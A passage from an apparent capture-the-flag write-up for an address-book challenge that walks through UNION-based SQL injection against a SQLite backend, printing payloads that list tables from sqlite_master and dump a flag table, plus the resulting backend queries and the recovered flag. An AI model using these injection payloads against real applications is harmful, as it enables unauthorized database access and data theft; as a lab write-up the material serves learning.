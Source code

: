 Now that we know what database there is, I can always query all the table names. To do that in SQL, my input became:
```
blahblah' AND 1=2 UNION SELECT name, 1, 1 FROM sqlite_master WHERE type = "table" --
```
which in turn on the backend side looked something like:
```sql
select * from sometablethatIdontknow where name='blahblah' AND 1=2 UNION SELECT name, 1, 1 FROM sqlite_master WHERE type = "table" --'
```

This returned the name of the tables available in that database. There is a `flag` table! That's what we want. To list everything inside of it, we do the last injection:
```
blahblah' AND 1=2 UNION SELECT *, 1, 1 FROM flag--
```
which then in turn on the backend side would look like:
```sql
select * from addressbook where name='blahblah' AND 1=2 UNION SELECT *, 1, 1 FROM flag--'
```

That was it! The flag, `HTM{ADDRESS_BOOK_INJECTION}` was mine!
![addressbookflag](/htm-2021/addressbookflag.png)
